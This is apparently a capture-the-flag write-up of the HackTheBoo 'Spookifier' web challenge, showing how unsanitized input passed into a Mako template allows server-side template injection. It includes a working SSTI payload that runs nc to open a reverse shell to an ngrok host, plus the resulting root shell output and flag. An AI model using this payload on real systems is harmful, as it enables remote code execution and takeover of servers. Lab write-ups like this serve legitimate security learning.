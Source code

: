 # Spookifier

## Background

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

> Difficulty: Easy

- Overall difficulty for me: Very easy

**In this challenge, we can spawn a docker instance and [download a file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/web_spookifier.zip):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/images/a1.png)

```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Web/Spookifier]
└─# unzip web_spookifier.zip           
Archive:  web_spookifier.zip
   creating: web_spookifier/
   creating: web_spookifier/challenge/
  inflating: web_spookifier/challenge/run.py  
   creating: web_spookifier/challenge/application/
   creating: web_spookifier/challenge/application/static/
   creating: web_spookifier/challenge/application/static/images/
  inflating: web_spookifier/challenge/application/static/images/vamp.png  
   creating: web_spookifier/challenge/application/static/css/
  inflating: web_spookifier/challenge/application/static/css/index.css  
  inflating: web_spookifier/challenge/application/static/css/nes.css  
   creating: web_spookifier/challenge/application/blueprints/
  inflating: web_spookifier/challenge/application/blueprints/routes.py  
  inflating: web_spookifier/challenge/application/util.py  
   creating: web_spookifier/challenge/application/templates/
  inflating: web_spookifier/challenge/application/templates/index.html  
  inflating: web_spookifier/challenge/application/main.py  
   creating: web_spookifier/config/
  inflating: web_spookifier/config/supervisord.conf  
  inflating: web_spookifier/build-docker.sh  
 extracting: web_spookifier/flag.txt  
  inflating: web_spookifier/Dockerfile
```

## Find the flag

**In the `routes.py`, we can see a route in `/`:**
```py
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

**Let's break it down!**

- It has a GET parameter called `text`
- `coverted` = `spookify()` function in `util.py`
- **Render a `index.html` template, and output the `converted` value**
- If no `text` GET parameter given, then render `index.html`

**Hmm... Rendering a template, maybe it's vulnerable to SSTI (Server-Side Template Injection)?**

**Since the `coverted` variable is using a function from `util.py`, let's look at that!**
```py
from mako.template import Template

"""
Bunch of sniped fonts are defined in here.
"""

def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

**In this python script, if we supply `text` GET parameter in `/`, it'll render 4 fonts.**

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/images/a2.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/images/a3.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/images/a4.png)

**Armed with the above information, we can try some SSTI payloads!**

**According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako), we can use this payload:**
```py
${x}
```

**Let's test it is vulnerable to SSTI or not!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/images/a6.png)

**Yes!! It's indeed vulnerable to SSTI!**

**Now, let's get reverse shell!**

To do so, I'll:

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/…/Spookifier/web_spookifier/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
```

- Use `ngork` for port forwarding:

```
┌──(root🌸siunam)-[~/…/Spookifier/web_spookifier/challenge/application]
└─# ngrok tcp 9001
[...]
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    tcp://0.tcp.ap.ngrok.io:15113 -> localhost:9001
[...]
```

- Send the payload!

```py
${self.module.cache.util.os.system("nc 0.tcp.ap.ngrok.io 15113 -e /bin/sh")}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Web/Spookifier/images/a7.png)

```
┌──(root🌸siunam)-[~/…/Spookifier/web_spookifier/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48422
whoami;hostname;id;ip a
root
ng-spookifier-sfu0z-855798d4f6-4mdww
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
12469: eth0@if12470: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 8a:0a:07:bb:1c:ec brd ff:ff:ff:ff:ff:ff
    inet 10.244.2.96/32 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::880a:7ff:febb:1cec/64 scope link 
       valid_lft forever preferred_lft forever
```

**Boom! We're in! Let's get the flag!**
```
cat /flag.txt
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```

# Conclusion

What we've learned:

1. Server-Side Template Injection (SSTI) in Python's Flask Mako